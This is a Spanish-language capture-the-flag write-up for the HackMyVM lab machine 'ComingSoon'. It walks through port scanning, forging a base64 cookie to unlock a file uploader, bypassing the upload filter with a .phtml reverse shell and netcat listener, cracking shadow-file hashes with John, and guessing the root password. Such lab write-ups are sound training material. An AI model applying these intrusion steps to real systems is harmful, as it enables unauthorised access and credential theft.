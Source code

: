 ```yaml
---
layout: post
title: ComingSoon
date: 2022-12-05
categories: ["HMV", "File Upload", "Cryptography", "Brute Force"]
thumbnail: "assets/images/ComingSoon.png"
---
```


# ComingSoon [ Hack My VM ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.1.111 -oG allPorts`
- `nmap -sCV -p22,80 192.168.1.111 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Si entramos a la web veremos un contador y un texto no relevante. Si inspeccionamos la página veremos un comentario que pone que el botón de `upload` se añadirá cuando `EnableUploader` esté activado. 

Como no vemos mucho vamos a hacer `fuzzing` para descubrir directorios y ficheros. Para ello utilizaremos `GoBuster` ya que es más rápido que `WFuzz`:

```
gobuster dir -u "http://192.168.1.111/" -w directory-list-2.3-medium.txt -x php,txt
```

```
/index.php            (Status: 200) [Size: 3988]
/assets               (Status: 200) [Size: 1492]
/license.txt          (Status: 200) [Size: 528] 
/notes.txt            (Status: 200) [Size: 279] 
```

Vemos un archivo algo curioso, `notes.txt` tal vez tenga alguna pista de lo que hacer. Vamos a ver qué pone:

> Set ssh to use keys only (passphrase same as the password)
>
> Just need to sort the images out:
> resize and scp them or using the built-in image uploader.
>
> Test the backups and delete anything not needed.

Nos está diciendo que pongamos el servicio `ssh` para que sólo use llaves, las cuales tendrán el mismo valor que la contraseña. Vemos algo que nos llama la atención, `built-in image uploader`.

Si nos acordamos en el `index.php` vimos un comentario que nos decía que se activaría el `EnableUploader` si se activa. Si miramos las `cookies` veremos que están en `base64` y si las decodificamos nos dará el siguiente resultado:

- `echo RW5hYmxlVXBsb2FkZXIK| base64 -d`

```
EnableUploader
```
- `echo ZmFsc2UK| base64 -d`

```
false
```

Wow! Vemos que las `cookies` están para definir un permiso! Vamos a ver qué pasa si cambiamos el `false` por un `true` (en `base64`):

- `echo -n true | base64`

```
dHJ1ZQ==
```

Si añadimos la `cookie` veremos un nuevo botón. Bien! Como vemos ahora nos da la opción de subir un archivo, vamos a intentar ganar acceso a la máquina por aquí.

Primero me descargué una Reverse Shell de [`PentestMonkey`](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) y la edité para que apunte a mi equipo.

Una vez hecho me puse en escucha con `NC` por el puerto que especifiqué, en mi caso el puerto `4444`.

- `nc -nlvp 4444`

Bien! Ya estamos preparados! Aunque hay un error, no nos deja subir archivos `PHP`, por lo que tenemos que tratar de saltarlo. Tras varias pruebas llegué a una extensión llamada `PHTML`. Gracias a dicha extensión de archivo logré subir el código.

Bien! Ya estamos en la máquina com `www-data`!

### Subida de privilegios #1
Para poder escalar privilegios y lograr ser `scpuser` comencé por enumeración básica, lo cual no funcionó muy bien. Tras estar mirando la máquina y recordar el archivo `notes.txt` llegué a la ruta `/var/backups` donde había un comprimido. Me lo llevé a mi máquina.

Una vez en mi máquina lo extraje con `tar -xf backup.tar.gz` y me dejó con dos carpetas: `var` y `etc`. En `var` no hay nada interesante, en cambio, en `etc` podemos ver dos ficheros: `passwd` y `shadow`.

Si miramos el fichero `shadow` veremos lo siguiente:

```
root:$y$j9T$/E0VUDL7uS9RsrvwmGcOH0$LEB/7ERUX9bkm646n3v3RJBxttSVWmTBvs2tUjKe9I6:18976:0:99999:7:::
daemon:*:18976:0:99999:7:::
bin:*:18976:0:99999:7:::
sys:*:18976:0:99999:7:::
sync:*:18976:0:99999:7:::
games:*:18976:0:99999:7:::
man:*:18976:0:99999:7:::
lp:*:18976:0:99999:7:::
mail:*:18976:0:99999:7:::
news:*:18976:0:99999:7:::
uucp:*:18976:0:99999:7:::
proxy:*:18976:0:99999:7:::
www-data:*:18976:0:99999:7:::
backup:*:18976:0:99999:7:::
list:*:18976:0:99999:7:::
irc:*:18976:0:99999:7:::
gnats:*:18976:0:99999:7:::
nobody:*:18976:0:99999:7:::
_apt:*:18976:0:99999:7:::
systemd-timesync:*:18976:0:99999:7:::
systemd-network:*:18976:0:99999:7:::
systemd-resolve:*:18976:0:99999:7:::
messagebus:*:18976:0:99999:7:::
avahi-autoipd:*:18976:0:99999:7:::
sshd:*:18976:0:99999:7:::
systemd-coredump:!*:18976::::::
scpuser:$y$j9T$rVt3bxjp6uYKKYJbYU2Zq0$Ysn02LrCwTUB7iQdRiROO7/WQi8JSGtwLZllR54iX0.:18976:0:99999:7:::
```

Wow! Podemos ver la contraseña `hasheada` de `scpuser` y `root`! Vamos a intentar, mediante fuerza bruta con `John`, adivinar la contraseña. Antes de todo metí los dos `hashes` en un fichero llamado `hash.txt`.

```
john hash.txt -w=/usr/share/wordlists/rockyou.txt --format=crypt
```

Estupendo! Tras unos segundos logramos obtener la contraseña de `scpuser` (`scpuser:tigger`)!

### Subida de privilegios #2
Una vez como `scpuser` tenemos que intentar ser `root`. Si nos vamos al directorio personal de `scpuser` veremos un fichero oculto con el nombre de `.oldpasswords`. Vamos a ver qué nos dice:

> Previous root passwords just incase they are needed for a backup\restore
>
> Incredibles2
>
> Paddington2
>
> BigHero6
>
> 101Dalmations

Como vemos son todas las contraseñas antiguas de `root`. Si nos fijamos poder ver un patrón: Las contraseñas son películas animadas con un número en el título, aunque le han quitado el espacio.

Tras una búsqueda llegamos a un [`top`](https://parade.com/554753/samuelmurrian/the-20-greatest-animated-films-of-all-time/) 51 películas animadas de todos los tiempos. Vemos que hay bastantes como para ir probando manualmente, por lo que si queréis podéis haceros un `script` para automatizarlo. Yo lo hice manual.

Tras un buen rato nos encontramos con `Toy Story`, si leemos vemos una mención a `Toy Story 3`.

Enhorabuena! Ya estamos en la máquina como `root` (`root:ToyStory3`)! Lo último ha sido tedioso!